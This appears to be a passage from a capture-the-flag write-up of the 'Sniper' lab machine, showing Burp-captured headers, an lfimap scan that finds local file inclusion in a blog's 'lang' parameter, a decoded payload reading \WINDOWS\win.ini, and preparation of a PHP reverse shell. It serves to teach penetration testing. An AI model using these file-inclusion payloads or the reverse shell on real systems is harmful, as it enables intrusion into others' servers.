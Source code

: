 ###### `Burp Suite to crawl site`
```
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
Server: Microsoft-IIS/10.0
X-Powered-By: PHP/7.3.1
Date: Wed, 23 Oct 2024 09:09:44 GMT
Content-Length: 2635
```
###### `Local File Inclusion`
One of the endpoint is vulnerable to LFI.
```
┌──(root㉿kali)-[/home/…/Downloads/Tools/LFImap/lfimap]
└─# python lfimap.py  -U 'http://10.10.10.151/blog/?lang=' -a -wT /usr/share/wordlists/Wordlist_From_Github/LFI_Windows_UNIX_Wordlist.txt 

[i] Testing GET 'lang' parameter...
[+] LFI -> 'http://10.10.10.151/blog/?lang=%5c%57%49%4e%44%4f%57%53%5c%77%69%6e%2e%69%6e%69'
```
Using the lfimap, I was able to find out the endpoint which is vulnerable to LFI. Upon decoding the above payload, I got the following result.
```
[+] LFI -> 'http://10.10.10.151/blog/?lang=%5c%57%49%4e%44%4f%57%53%5c%77%69%6e%2e%69%6e%69'
[+] LFI -> 'http://10.10.10.151/blog/?lang=\WINDOWS\win.ini
```

###### `Trying to load shell and failed using python server`
now let's prepare a php shell. I got the PHP Ivan Sincek Shell from the https://www.revshells.com/ and saved it on my kali as `shell.php`
```
──(root㉿kali)-[/home/ringbuffer/Downloads/Sniper.htb]
└─# ls
shell.php  test.txt
```

Here's the last portion of my shell look like
![](Sniper_web7.png)
